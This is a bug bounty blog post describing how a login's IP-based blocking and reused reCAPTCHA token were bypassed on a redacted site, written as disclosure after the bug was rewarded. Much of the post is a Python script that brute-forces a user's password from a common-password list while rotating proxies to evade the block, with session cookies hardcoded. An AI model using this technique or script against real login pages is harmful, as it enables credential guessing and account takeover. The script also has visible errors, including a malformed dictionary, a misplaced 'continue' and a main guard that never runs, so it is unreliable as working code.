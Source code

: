 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: Ip Rotation Bypass
description: Ip rotation to bypass ip based check
image: https://i.ibb.co/xXt8WMK/rotate.jpg
optimized_image: https://i.ibb.co/xXt8WMK/rotate.jpg
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## Bypassing Ip based protection for login using simple python script

Hey guys I'm back with my another finding and also another one which does not implement google recaptcha properly and made this attack possible ...will see how.
We will say this traget as "private.com" through out the article. So let's jump into it !

![Alt Text](https://media.giphy.com/media/CjmvTCZf2U3p09Cn0h/giphy.gif)

Like always whenever I hunt on any program I start with the main web app and check out their stuffs there...well why not ?
So I jumoed to login created an accout and started to  check if web app implements rate limit or not ...
Well web app says that it implements google recaptcha so I thought ..well I try to remove header from the request and removed that recaptcha part from json request..like

- Original json request:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"}
```

- To:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?",  "recaptchaVersion": "v3"}
```

But no luck 

- Response:
```
{"error":"recaptchaToken not found"}
```
Next thing I checked if web app reuses this recptcha?
And well yes ...now response was like 

- Response:
```
{"error":"Incorrect email/Password"}
```
![Alt Text](https://media.giphy.com/media/dLolp8dtrYCJi/giphy.gif)

Now the next thing remains is to check it we can bruteforce this ...Well after 3 ~ 4 tried including the above requests so total like ~ 7 requests I got response like 

```
{"error":"Something went wrong, Ip 47.1.X.x" is added to blacklist try again later"}
```
From this point I thought well it blocked my Ip what about other ?
So I tried to login with my phone data with random password and correct email and got response as

```
{"error":"Incorrect email/Password"}
```
So now I know what to do ;)

![Alt Text](https://media.giphy.com/media/BlWF2vzpIPB0A/giphy.gif)

- Now I had two options either use:
  - IpRotate which is cool extension which uses aws api gatways and proxy your traffic with unique ips 
  - Create a script (as most time internal teams would not like to install a extension for a specific bug)

So I made the following simple python3 script which proxies your every login attempt through different ips 

```python

from proxy_requests.proxy_requests import ProxyRequests
import Queue
import sys

q = Queue.Queue()

passwordList = open('1k_most_common.txt','r').read().splitlines()
total = len(passwordList)


def attack(url):
   try :
       Pass = q.get()
       r = ProxyRequests(url)
       r.set_headers({"Connection": "close", 
                      "Accept": "application/json, text/plain, */*", 
                      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36", 
                      "Content-Type": "application/json;charset=UTF-8", 
                      "Origin": "https://private.com", 
                      "Sec-Fetch-Site": "same-site", 
                      "Sec-Fetch-Mode": "cors", 
                      "Sec-Fetch-Dest": "empty", 
                      "Referer": "https://private.com/login", 
                      " Accept-Encoding": "gzip, deflate", 
                      "Accept-Language": "en-US,en;q=0.9",
                      "Cookie " : "__cfduid": "dc7914404b4b8af17d2b615325ec94cbf1596976181", "connect.sid": "s%3Aqcg54CJ2isBko1u1YNhaPG0bhX9R9Wmi.8XeOBqwBtDjReQFjOwpK8s6AnRPVO4BJfghJClZEcio"}

       r.post_with_headers({"email": "anyuser@gmail.com", "password": "" + str(Pass) + "", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"})

       if r.get_status_code() == 401 or r.get_status_code() == 429:
                     continue
       if r.get_status_code() == 302:
                     print ("[!] Password Found !: " + str(Pass))
    except Queue.Empty :
	sys.exit()
   
def push_pass():

   for password in passwordList :
        q.put(password.strip())

def main():
   push_pass()
   url = "https://api.private.com/api/v2/login"
   for i in range(total):
       attack(url)
        

if '__name__' == '__main__': 
    main()
```
I didn't made it fast which I could or you could make a simple bash script with calls curl and a proxy list via which curl proxies your traffic...well I just had to show that even after like 12 - 20 requests web app is still allowing me for another login attempt


- Reported the bug 
Accepted and bounty awarded $_$

- Takeaway
  - Trying new thing helps

Hope you guys learned seomthing new from this post :)
See you next time !

![Alt Text](https://media.giphy.com/media/KEkCtOMhkdze5azTMa/giphy.gif)
